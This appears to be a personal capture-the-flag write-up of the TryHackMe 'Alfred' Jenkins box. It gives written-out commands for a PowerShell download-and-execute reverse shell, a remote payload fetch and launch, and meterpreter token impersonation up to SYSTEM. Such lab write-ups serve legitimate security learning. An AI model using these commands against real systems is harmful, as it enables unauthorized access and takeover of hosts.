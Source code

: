 ### THM Alfred

Welcome back.  So another box today.  This one looks to be a Jenkins box.

So, start off just like always, get our nmap going and see what we're looking at.

```
(kali@kali)-$ sudo nmap -T4 -p- -Pn 10.10.75.111     
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 10:09 EST
Nmap scan report for 10.10.75.111
Host is up (0.11s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 140.50 seconds
```

And our deeper look.  I know the first couple on this second step I didn't at the `-Pn` tag but this time it kicked back as not hearing me so I had to add it.  Should probably do that going forward.

```
(kali@kali)-$ sudo nmap -A -Pn -p 80,8080 10.10.75.111
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 10:16 EST
Nmap scan report for 10.10.75.111
Host is up (0.11s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 7.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|8.1|Phone (90%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_8.1:r1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 (87%), Microsoft Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 or Windows 8 (87%), Microsoft Windows 7 SP1 (87%), Microsoft Windows 8.1 Update 1 (87%), Microsoft Windows 8.1 R1 (87%), Microsoft Windows Phone 7.5 or 8.0 (87%), Microsoft Windows Embedded Standard 7 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   43.65 ms  10.6.0.1
2   ... 3
4   122.79 ms 10.10.75.111

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.82 seconds
```

Not even going to worry about the 3389 for the moment.  Check the websites and we get a Bruce Wayne memorial page and then on 8080, we get a Jenkins log in screen.  Thought about this one a little too hard at first, looked at the page source, tried checking for Jenkins exploits but then had a lightbulb moment and decided to try the username:password of admin:admin.  And wouldn't ya know it....

![Jeves Admin Dashboard](/Images/THM1Alfred/pic1.png)

After a bit more poking around, I realize, I've seen this before.  On the Jeeves box.  Ha, now, grabbing the user flag is ezpz.

![Reverse Shell Script](/Images/THM1Alfred/pic2.png)

Get my listener going, run the script and viola.

![User flag](/Images/THM1Alfred/pic3.png)

If you're doing the HTB route, and I am cause I ended up getting kinda stuck here on the escalation, going to go that route talks about powershell being the preferred method.

So following those directions, we poke a bit more around the Jenkins interface.  And going through we do find a place where we can kick off some powershell stuff.

`Project` in the middle area and then `configure` loads up an interface.  Going down to the Build section gives me a spot where I can put some commands in.

![Build](/Images/THM1Alfred/pic4.png)

`powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`

Put that command in and we use that to get our shell going.

We'll need to first get Invoke-PowerShellTcp.ps1 via a google search and github.  Once we do that, start up the http server via python (`python3 -m http.server 80`), get the nc listener going on the port selected, and then in Jenkins click save and then build now.

That should download the invoke power shell file and kick us back into the user we had before.  But this time, we have a powershell instead of just a limited cmd prompt.

And we're here again.

![Bruce again](/Images/THM1Alfred/pic5.png)

Now that we're here, we need to elevate.  Checking the `whoami /priv` Gives us the following

![whoami /priv](/Images/THM1Alfred/pic6.png)

I can impersonate!  Woot woot!  Hot potato, let's fkin go!!

So we need to get a meterpreter session going.  So we use msfvenom in order to craft our exploit and get our meterpreter session going.

![msfvenom](/Images/THM1Alfred/pic7.png)

Fireup our meterpreter listener...

![handler options](/Images/THM1Alfred/pic8.png)

Make sure that your payload matches from your `msfvenom` or, guess what.  It won't work.  Nevermind how I know that or how frustrating it was figuring that out lol.  Anywho, back to it.

Once that's running, back to our powershell instance.  We use the following commands to get our meterpreter going.

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.x.x.x:80/alfred.exe','alfred.exe')"`
`Start-Process alfred.exe`

In our Metasploit console we get...

![meterpreter session](/Images/THM1Alfred/pic9.png)

```
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
No tokens available

meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
```

We find that we can, in fact, impersonate the Builtin\Administrators token.

And so we do that and we are now NT AUTHORITY\SYSTEM!!

If you're following back on THM, go to the filepath listed and grab the root.txt from the System32\config folder with meterpreter's `download` command.

This one was a bit of a pain but it was my own fault.  I left the payload as default and because of such I was getting sessions but they would close immediately.  After I figured that out, it was pretty smooth sailing.  Need to make sure I'm staying on top of that.

Anywho, thank you again for riding along.
